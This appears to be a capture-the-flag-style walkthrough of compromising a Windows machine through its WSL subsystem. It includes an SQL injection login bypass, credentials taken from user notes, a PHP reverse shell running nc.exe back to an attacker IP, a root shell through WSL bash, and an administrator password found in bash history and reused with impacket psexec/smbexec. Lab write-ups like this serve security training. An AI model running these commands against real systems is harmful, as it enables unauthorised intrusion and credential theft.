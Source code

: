 # Windows Subsystem for Linux

It is use to run linux in windows with or without the VMs. 

Now we want to get some initial foothold to the machine. Moving to the port 80 to see the website, it contains a login page so we are registering new account and login to it. And in the contact us their given a mail `tyler@random.com` it gives the username. The username enumeration is done in new registeration because it cannot allow the username as duplicate and says the username is already taken 

and by logining with the username and password using sql injection 

```
// credentials 
username and password - 'OR 1 OR'
```

Now we can see all the users notes in that the user tyler has the note of his credentials and name of smb folder and now using the psexec.py to get the initial access 

We have two website one in port 80 and other in the port 8880, port 8880 has direct access to smb 
```
psexec.py tyler:'his_password'@ip_address 

// it is blocked may be due to the antivirus or firewall so we got the credentials of tyler now we going to use the smb and got into it 
smbclient \\\\ip_address\\new-site -U tyler 

// we have nc.exe in the kali machine and uploading in the smb folder 
put nc.exe 

// uploading the reverse shell in the php with a filename (reverse.php)
<?php system('nc.exe -e cmd.exe attacker_ip port')?>

// upload the reverse shell 
put reverse.php

// now visiting the target site give us reverse shell 
https://target.site/reverse.php 

// we got the initial access 
systeminfo - with error : Access Denied

// we can't access efficiently so checking for the antivirus software and found the windows defender is up  
sc query windefend 
```

It could be exploited using the Windows Subsystem for Linux and refer for it is in [payloads all the things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/#eop-windows-subsystem-for-linux-wsl) 

```
// Location of bash.exe 
where /R c:\windows bash.exe 

// Location of wsl.exe 
where /R c:\windows wsl.exe 

// execute the wsl.exe in the reverse shell we got 
path/wsl.exe whoami

// executing bash we can see it also executes the wsl for us 
path/bash.exe 
whoami -> root 
hostname -> random 
uname -a -> Linux random 

// it fails in tty so we using python to make it tty shell 
python -c "import pty;pty.spawn('/bin/bash')"

// Now we are in the wsl 
pwd 
ls -la 
history 

// we found administrator password in bash history
the command used is -> smbclient -U 'administrator%hispassword' \\\\127.0.0.1\\c$

// now we get the administrator access using it in smbclient to get admin access 
smbclient -U 'administratorhispassword' \\\\ip_address\\c$ 
```

But we can navigate inside the directories, we not gained full access now clone [impacket](https://github.com/fortra/impacket)

```
cd impacket 
psexec.py administrator:'hispassword@ip_address  

// if antivirus blocks it try it with other tool 
smbexec.py administrator:'hispassword'@ip_address

// now we became nt authority system 
whoami 
nt authority\system
```
